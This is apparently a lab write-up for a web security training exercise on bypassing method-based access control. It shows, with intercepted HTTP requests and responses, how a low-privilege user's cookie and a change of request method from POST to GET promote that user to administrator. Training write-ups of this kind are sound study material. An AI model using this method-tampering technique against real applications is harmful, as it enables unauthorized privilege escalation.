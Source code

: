 ```bash

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220513205624.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220513205652.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220513210446.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220513210215.png)

### Method-based access control can be circumvented
```bash

# This lab implements access controls based partly on the HTTP method of requests. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

# To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator. 

Log in as administrator:admin
Go to: "Admin panel"
Intercept is on
Upgrade the account "carlos"
Send to repeater
Log off and re-log as wiener:peter
Take the cookie for username "wiener" and replace it in the previous request sent to repeater

POST /admin-roles HTTP/1.1

Response:

HTTP/1.1 401 Unauthorized

"Unauthorized"

Change

POST /admin-roles HTTP/1.1

To

POSTX /admin-roles HTTP/1.1

Response:

HTTP/1.1 400 Bad Request

"Missing parameter 'username'"

Right-click the POSTX request and select "Change request method"

Change:

GET /admin-roles?username=carlos&action=upgrade HTTP/1.1

To

GET /admin-roles?username=wiener&action=upgrade HTTP/1.1

```
